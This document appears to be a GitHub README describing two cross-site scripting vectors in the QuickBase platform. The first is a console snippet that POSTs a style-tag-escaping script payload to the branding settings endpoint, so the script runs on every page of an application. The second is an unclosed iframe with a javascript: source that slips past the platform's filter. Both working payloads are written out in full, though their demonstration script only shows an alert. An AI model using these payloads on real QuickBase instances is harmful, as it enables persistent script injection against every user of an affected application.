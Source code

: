 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

##Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

#####Why does it work?
This one works for a couple of reasons:
- Omiting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.

```
<iframe src="javascript: alert('HELLO!')" style="display: none"
```
